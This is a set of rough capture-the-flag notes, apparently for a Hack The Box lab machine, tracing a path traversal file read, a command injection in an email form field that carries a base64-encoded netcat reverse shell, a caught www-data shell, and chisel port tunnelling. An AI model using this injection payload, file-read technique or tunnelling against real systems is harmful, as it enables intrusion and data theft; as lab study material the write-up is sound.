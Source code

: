 # Only For  You usrer8788 Notes

Pre-Req
> Connect to the Seasonal VPN
> IP = 10.129.70.214                                                                              
┌──(toor㉿kali)-[~/OnlyForYou]
└─$ sudo openvpn ~/Downloads/competitive_DefenceLogic.ovpn 


## Enumeration Phase

### Nmap Scan 

NmaFrom our nmap scan we can see a webpage
_http-title: Did not follow redirect to http://only4you.htb/


Add this to the /etc/hosts file
> 10.129.70.214 only4you.htb

Viewing the Services page, we find an inactive subdomain
https://beta.only4you.htb/
    add this to our /etc/hosts and see what we get...
> 10.129.70.214 only4you.htb beta.only4you.htb 

### Subdomain enum

http://beta.only4you.htb/ gives us a link to download their source code 
[BurpSuite??]http://beta.only4you.htb/resize gives us the ability to **upload images**
[BurpSuite??]http://beta.only4you.htb/convert gives us the ability to **upload images**

### Source Code Enum

> Looking at the source code, we can see that the download function of app.py is vulnerable
'''
@app.route('/download', methods=['POST'])
def download():
    image = request.form['image']
    filename = posixpath.normpath(image) 
> Path traversal workaround needed
  **if '..' in filename or filename.startswith('../'):**
        flash('Hacking detected!', 'danger')
        return redirect('/list')
    if not os.path.isabs(filename):
        filename = os.path.join(app.config['LIST_FOLDER'], filename)
    try:
        if not os.path.isfile(filename):
            flash('Image doesn\'t exist!', 'danger')
            return redirect('/list')
    except (TypeError, ValueError):
        raise BadRequest()
    return send_file(filename, as_attachment=True)
'''
> Since this application uses flask, there is a vuln that allows us to look for any file as long as we know the full path.



### BurpSuite 

#### LFI Manual part 1 
1. Go to /resize and upload an image
2. Open BurpSuite and turn on FoxyProxy (Burp)
3. Set Intercept to On
4. Once we are on the /list page, download any file.
5. Capture the request and send to repeater  (Ctrl + R)
6. Change the *image* to /etc/passwd

'''
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
john:x:1000:1000:john:/home/john:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
**neo4j:x:997:997::/var/lib/neo4j:/bin/bash**
dev:x:1001:1001::/home/dev:/bin/bash
fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:996:996::/var/log/laurel:/bin/false
'''



#### LFI via ffuf manual (Without Burp Pro)
> We are looking for an nginx config file as seclists did not give us much
> The things we need are as followed
[x] a config file ( we have that nginx )
[] Default creds 
[] A user that would take those default creds 


Using ChatGPT, create a simple payload list for the defualt nginx files:
Q: give it in a .txt code block so I can copy it into a wordlist for fuzzing aswell as the full path. Also ndo not include your notes after the file

A: 
'''
/etc/nginx/nginx.conf
/etc/nginx/fastcgi_params
/etc/nginx/mime.types
/etc/nginx/sites-available/default
/etc/nginx/sites-enabled/default
/etc/nginx/proxy_params
/etc/nginx/ssl_params
/etc/nginx/uwsgi_params
/etc/nginx/scgi_params
/etc/nginx/koi-utf
'''

Use the intruder and sniper with that payload to perform the attack
Once the attack is finsihed, look through you results.

Looking at the sites-available, we have found the root location of the web application:
'''
	location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
	}
}

server {
	listen 80;
	server_name beta.only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
        }
}
'''

Now that we have the root folder for the web application, we can now grab the app.py file with the repeater tab we used earlier.






### Chisel
> neo4j default part 1
> neo4j default password

> Looking for open ports (netstat -anot)
    > only4you web login on port 8001
        > Add another chisel connection

### Add another shell after chisel
> revshells python3 #2
    >https://www.revshells.com/
'''


### Only4You
> First we will try the default admin creds known by everyone 
    > admin:admin
> Success!!!


Looking around this webpage, we can see the following
> Dashboard
> Employees
- Clicking the search feature reveals employees of only4you

> User Profile






Content-Length: 168

email=test@google.com;echo%20cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjEwLjE0LjI1IDkwMDEgPi90bXAvZg==|base64%20-d|bash&subject=ss&message=ss


┌──(toor㉿kali)-[~/OnlyForYou]
└─$ nc -lvnp 9001  
listening on [any] 9001 ...
connect to [10.10.14.25] from (UNKNOWN) [10.129.70.214] 35562
sh: 0: can't access tty; job control turned off
$ 
$ 
$ whoami
www-data
$ 

Now that we have access, we will need to go back to the etc./passwd file to notice the user neo4j is of interest

**neo4j:x:997:997::/var/lib/neo4j:/bin/bash**

> neo4j  | HTTP | 7474 |  server.http.listen_address
>        | Bolt | 7687 |  server.bolt.listen.address

Attack Box
└─$ ./chisel server -p 9999 --reverse


TArget Box 

www-data@only4you:~/only4you.htb/tmp$ chisel server 10.10.14.25:9999 R:7687:0.0.0.0:7687 R:7474:127.0.0.1:7474  